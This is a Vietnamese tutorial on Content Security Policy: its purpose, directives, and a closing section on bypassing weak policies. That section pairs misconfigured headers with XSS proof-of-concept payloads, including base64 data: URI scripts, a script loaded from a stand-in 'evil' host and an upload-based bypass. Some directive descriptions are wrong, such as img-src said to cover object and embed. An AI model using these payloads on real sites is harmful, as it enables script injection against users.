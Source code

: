 
# Content Security Policy
# I.Tổng quan.
## 1. khái niệm CSP.
- Content Security Policy (CSP) là biện pháp bảo mật thiết yếu để bảo vệ các ứng dụng web khỏi một số loại tấn công nhất định. Bằng cách xác định các quy tắc nghiêm ngặt về tài nguyên mà trình duyệt có thể tải, CSP hạn chế các vectơ tấn công tiềm ẩn.
- Content Security Policy (CSP) biện pháp bảo vệ bổ sung giúp phát hiện và hạn chế một số cuộc tấn công từ phía máy khách, chẳng hạn như Cross Site Scripting (XSS) , clickjacking và chèn nội dung.
## 2.hoạt động CSP.
- CSP (hay Content-Security-Policy) thực chất là một header nằm trên request khi được gửi đến một server nào đó.Để enable CSP, chúng ta chỉ cần cấu hình cho server của chúng ta trả về Content-Security-Policy HTTP headers.Để xem danh sách các thẻ policy đầy đủ bạn có thể xem tại Content-Security-Policy header Một cách khác chúng ta có thể sử dụng thông qua thẻ <meta>. Ví dụ: <meta http-equiv=”Content-Security-Policy” content=”default-src ‘self’; img-src https://*; child-src ‘none’;”>
## 3.Một số chính sách của CSP.

### Các chỉ thị này xác định các nguồn được ủy quyền cho các tài nguyên HTML khác nhau.

- ```default-src```  Nguồn mặc định nếu không có chỉ thị nào khác được xác định.
- ```script-src```  Nguồn hợp lệ cho các tập lệnh JavaScript và WebAssembly.
- ```script-src-elem```  Nguồn hợp lệ cho ```<script>```thẻ. Nếu không có, script-srcsẽ được sử dụng.
- ```frame-src``` Nguồn hợp lệ cho ```<frame>```và ```<iframe>```.
- ```img-src```  Nguồn hợp lệ cho ```<object>```, ```<embed>```và ```<applet>```.
- ```style-src```  Nguồn hợp lệ cho bảng định kiểu.
- ```font-src```  Nguồn phông chữ hợp lệ

### Một số chỉ thị không liên quan đến việc khôi phục tài nguyên nhưng bổ sung thêm các biện pháp kiểm soát bảo mật

- ```sandbox``` : Kích hoạt một hộp cát để cô lập nội dung nhất định (như đối với ```<iframe>```).
- ```require-trusted-types-for``` : Áp dụng 'các loại đáng tin cậy' để hạn chế các cuộc tấn công XSS dựa trên DOM .
- ```trusted-types``` : Xác định danh sách trắng 'Loại đáng tin cậy' để ngăn chặn việc thực thi dữ liệu giả mạo.
- ```upgrade-insecure-requests``` : Tự động chuyển đổi yêu cầu HTTP sang HTTPS. Hữu ích cho việc hiện đại hóa một trang web có nhiều URL cũ.
- ```frame-ancestors``` : Hạn chế các nguồn được phép cho các phần tử ```<frame>```, ```<iframe>```, ```<object>```, ```<embed>``` và ```<applet>```
- ```form-action``` : Kiểm soát các URL được phép gửi biểu mẫu.
- ```base-uri``` : Hạn chế các nguồn hợp lệ cho ```<base>``` thẻ.

## 4.bỏ qua các chính sách CSP.
- Xác thực JavaScript không an toàn trong dòng : ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-inline';```
  + payload :  ```<script>alert(1);</script>```
- Ủy quyền đánh giá không an toàn :  ```Content-Security-Policy: default-src 'none'; script-src 'unsafe-eval' data:; ```
 + payload :  ``` <script src="data:;base64, YWxlcnQoMSk="></script>```
- Sử dụng ký tự đại diện trong script-src :  ```Content-Security-Policy: default-src 'none'; script-src https://vaadata.com *; ```
  + payload :  ``` <script src="https://evil.vaadata.at"></script>  ```
                 ```<script src="data:;base64, YWxlcnQoMSk="></script> ```
- Không có chỉ thị object-src và default-src :  ```Content-Security-Policy: script-src ‘self’; img-src ‘self’; img-src 'self’;```
  + payload : ```<object data="data:text/html;base64,PHNjcmlwdD5hbGVydCgxKTwvc2NyaXB0Pg=="></object>```
- Khai thác điểm cuối JSONP được ủy quyền :
- 
  **```Content-Security-Policy: default-src 'none';```
  ```script-src https://hello.vaadata.com/test.js ```
```https://accounts.google.com/o/oauth2/revoke;```**
- Bỏ qua CSP thông qua việc tải tệp lên : ```Content-Security-Policy: default-src 'self'```
  + payload : ```<script src="/upload/evil-script.js"></script>```

### Tài Liệu tham khảo.
- https://websecblog.com/vulns/google-csp-evaluator/
  
